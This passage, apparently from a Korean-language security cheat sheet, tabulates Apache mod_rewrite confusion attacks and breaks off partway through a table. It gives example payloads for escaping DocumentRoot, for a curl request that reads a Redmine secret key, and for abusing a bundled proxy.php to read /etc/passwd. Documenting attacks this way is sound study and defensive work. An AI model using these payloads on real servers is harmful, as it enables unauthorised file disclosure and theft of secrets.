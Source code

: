 ### Confusion

<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시 페이로드 / 커맨드</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Rewrite Confusion</td>
      <td><code>RewriteRule "^/html/(.*)$" "/$1.html"</code></td>
      <td>mod_rewrite는 재작성된 경로를 처리할 때 DocumentRoot를 적용한 경로와 적용하지 않은 절대 경로 두 가지를 모두 시도한다. 이 불일치로 인해 공격자는 DocumentRoot의 통제를 벗어나 파일 시스템의 절대 경로에 접근할 수 있다.</td>
      <td>[1]</td>
    </tr>
  </tbody>
</table>

### Validation

<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시 페이로드 / 커맨드</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Response Validation</td>
      <td><code>curl http://server/html/usr/share/redmine/instances/default/config/secret_key.txt%3f</code></td>
      <td>조작된 페이로드로 요청을 보냈을 때, 서버로부터 200 OK 응답과 함께 예상했던 민감 정보(예: Rails Secret Key)가 실제로 응답 본문에 포함되는지 확인하여 공격 성공을 검증한다.</td>
      <td>[1]</td>
    </tr>
  </tbody>
</table>

### Exploitation

<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시 페이로드 / 커맨드</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Local Gadget to LFI</td>
      <td><code>http://www.local/html/usr/share/javascript/jquery-jfeed/proxy.php%3Furl=/etc/passwd&amp;x</code></td>
      <td>/usr/share에 기본 설치된 서드파티 라이브러리(Local Gadget) 중 LFI 취약점이 있는 파일(proxy.php)을 악용하여, 서버의 다른 민감한 파일(예: /etc/passwd)을 읽는다.</td>
      <td>[1]</td>